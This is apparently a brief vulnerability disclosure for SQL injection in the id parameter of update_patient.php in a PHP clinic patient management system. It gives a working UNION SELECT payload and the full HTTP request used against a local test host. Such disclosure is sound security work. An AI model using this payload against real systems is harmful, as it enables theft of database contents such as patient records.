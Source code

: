 # Clinic's Patient Management System v1.0 by oretnom23 has SQL injection

BUG_Author： lendme1996

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: /pms/update_patient.php?id=

Vulnerability location: /pms/update_patient.php?id=, id

dbname = pms_db

[+] Payload: /pms/update_patient.php?id=-1%20union%20select%201,2,database(),4,5,6,7--+ // Leak place ---> id

```sql
GET /pms/update_patient.php?id=-1%20union%20select%201,2,database(),4,5,6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=odknb2obdq1nkaqk7p7u8hvli8
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/177024999-26ca6635-c01a-4aed-bb54-c2823335c7a3.png)

